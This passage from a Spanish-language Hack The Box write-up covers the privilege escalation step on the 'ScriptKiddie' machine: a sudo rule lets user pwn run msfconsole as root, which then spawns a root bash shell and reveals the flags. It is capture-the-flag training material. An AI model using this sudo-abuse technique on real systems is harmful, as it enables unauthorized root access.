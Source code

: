 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314google_gifdanceNBA.gif" style="display: block; margin-left: auto; margin-right: auto; width: 40%;"/>

¡Enumeremos pa vel!

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si validamos que puede ejecutar `pwn` usando sudo (con permisos de `root`) en la máquina, nos encontramos:

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

El binario `msfconsole`, veamos:

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
```

Y tenemos:

```bash
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
```

```bash
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# cd
root@scriptkiddie:~# ls
root.txt  snap
```

Perfecto, solo nos quedaría ver las flags:

![314flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314flags.png)
